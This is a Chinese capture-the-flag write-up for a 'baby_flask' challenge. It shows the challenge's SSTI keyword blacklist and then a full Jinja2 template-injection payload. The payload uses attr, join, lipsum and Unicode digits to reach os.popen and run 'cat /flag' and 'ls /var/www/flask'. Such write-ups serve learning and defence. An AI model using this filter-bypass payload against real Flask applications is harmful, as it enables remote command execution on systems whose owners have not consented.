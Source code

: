 
#  baby_flask 

 看源码

```html
<!--
Hi young boy!</br>
Do you like ssti?</br>

blacklist</br>   
'.','[','\'','"',''\\','+',':','_',</br>   
'chr','pop','class','base','mro','init','globals','get',</br>   
'eval','exec','os','popen','open','read',</br>   
'select','url_for','get_flashed_messages','config','request',</br>   
'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>    
</br>   

-->
```

fuzz后发现没过滤掉|attr，因此拿attr来绕即可，利用flask中的join过滤器同样可以拼接出：

```html
{% set gl=dict(glo=a,bals=a)|join%}
```

拿python做了个例子，原理类似

![](https://img.npfs06.top/20210406200259.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



数字被过滤了可以使用这些特殊的数字来绕过

![](http://img.npfs06.top/20210406204043.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



![](https://img.npfs06.top/20210406203323.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```php
{%set a=dict(po=aa,p=aa)|join%} # pop
{%set b=lipsum|string|list|attr(a)(𝟙𝟠)%} # _
{%set c=(b,b,dict(glob=cc,als=aa)|join,b,b)|join%} # globals
{%set d=(b,b,dict(ge=cc,tit=dd,em=aa)|join,b,b)|join%} # getitem
{%set e=dict(o=cc,s=aa)|join%} # os
{%set f=lipsum|string|list|attr(a)(𝟡)%} # 空格
{%set g=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟠)%} # 斜杠
{%set i=(dict(cat=aa)|join,f,g,dict(flag=aa)|join)|join%} # cat /flag
{%set h=(a,dict(en=aa)|join|join)|join%} # popen
{%set i=dict(re=aa,ad=aa)|join%} # read
{%set z=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟝)%} #点
{%set j=(dict(ls=aa)|join,f,g,(dict(var=aa)|join),g,(dict(www=aa)|join),g,(dict(flask=aa)|join)|join)|join%} #ls /var/www/flask
{%print (((lipsum|attr(c))|attr(d)(e))|attr(h)(j))|attr(i)()%}{{j}}
#最后拼接起来
#{{lipsum.__globals__['os'].popen('ls /var/www/flask').read()}}
```
